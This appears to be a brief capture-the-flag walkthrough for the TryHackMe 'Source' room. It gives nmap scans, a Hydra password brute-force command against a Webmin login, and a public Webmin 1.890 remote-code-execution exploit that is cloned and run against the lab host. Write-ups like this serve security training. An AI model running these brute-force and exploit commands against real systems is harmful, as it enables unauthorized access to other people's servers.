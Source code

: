 # source

**Room Link:** [https://tryhackme.com/room/source](https://tryhackme.com/room/source)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/10000 - HTTP

<figure><img src="../../.gitbook/assets/image (26) (2).png" alt=""><figcaption></figcaption></figure>

Tried to bruteforce the admin password but it blocked my IP after so many attempts, this is clearly not the intended route.

**Kali**

```
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra/
./configure
make
make install

./hydra -S -l admin -s 10000 -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt ip-10-10-221-100.eu-west-1.compute.internal http-post-form "/session_login.cgi:user=^USER^&pass=^PASS^:F=Warning!" -V
```





**Kali**

```
git clone https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE.git
cd WebMin-1.890-Exploit-unauthorized-RCE/
python webmin-1.890_exploit.py  ip-10-10-221-100.eu-west-1.compute.internal 10000 id
```

<figure><img src="../../.gitbook/assets/image (14) (1) (4) (2).png" alt=""><figcaption></figcaption></figure>

I tried to get a full shell but nothing worked, there was a metasploit exploit which I could do for that but I didn't want to.

















































